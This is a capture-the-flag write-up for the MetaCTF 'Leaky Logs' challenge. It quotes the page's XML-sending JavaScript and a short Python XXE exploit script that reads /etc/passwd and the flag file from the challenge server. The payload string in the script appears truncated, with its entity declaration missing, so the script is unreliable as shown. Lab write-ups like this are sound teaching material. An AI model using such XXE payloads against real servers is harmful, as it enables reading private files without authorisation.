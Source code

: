 # Leaky Logs

This challenge was based around an XML Injection.  
We first analyzed the source and found a weird js code to send xml data to the
server at this url: `http://host1.metaproblems.com:4920/events`  
```js  
   function keyup(e) {  
       if (e.keyCode === 13) {  
           search(document.getElementById("searchbar").value);  
       }  
   }

   function search(query) {  
       console.log(query);

       let doc = document.implementation.createDocument("", "", null);  
       let elem = doc.createElement("params");  
       let queryparam = doc.createElement("query");  
       queryparam.innerHTML = query;  
       elem.appendChild(queryparam);  
       doc.appendChild(elem);  
       const serializer = new XMLSerializer();  
       const xmlStr = serializer.serializeToString(doc);  
       console.log(xmlStr);

       fetch("/api/event_log", {  
               method: "POST",  
               headers: {  
                   'Content-Type': 'text/xml'  
               },  
               body: xmlStr  
           })  
           .then(data => data.text())  
           .then(str => new window.DOMParser().parseFromString(str, "text/xml"))  
           .then(data => {  
               const tableBody = document.getElementById("table-body");  
               while (tableBody.firstChild) {  
                   tableBody.firstChild.remove()  
               }

               for (e of data.getElementsByTagName("event")) {  
                   const row = tableBody.insertRow(-1);  
                   row.insertCell(-1).innerHTML = e.getAttribute("date");  
                   row.insertCell(-1).innerHTML = e.innerHTML;  
                   let symbol = "cart";  
                   if (e.innerHTML.includes("finished")) {  
                       symbol = "user";  
                   } else if (e.innerHTML.includes("resumed")) {  
                       symbol = "cog";  
                   }  
                   row.insertCell(-1).innerHTML = "<span></span>";  
               }  
           });  
   }

   search("");  
```

So we assumed that we can extract files over a XXE and crafted a small exploit
script

```  
import requests

def exploit():  
   res = requests.post("http://host1.metaproblems.com:4920/api/event_log",  
                       data="]><params><query>&xx;;</query></params>",  
                       headers={"Content-Type": "text/xml"})  
   print(res.content.decode())  
   pass

exploit()  
```

And we got a response of the passwd file. Now we need find and exfiltrate the
flag. We found it at the root path at  
/flag  
with the content:  
```  
MetaCTF{el3m3nt4l_3xtern4lit1e5}  
```

Original writeup (https://github.com/PwnProphecy/ctf/blob/main/metactf-
cybergames2021/Leaky-Logs.md).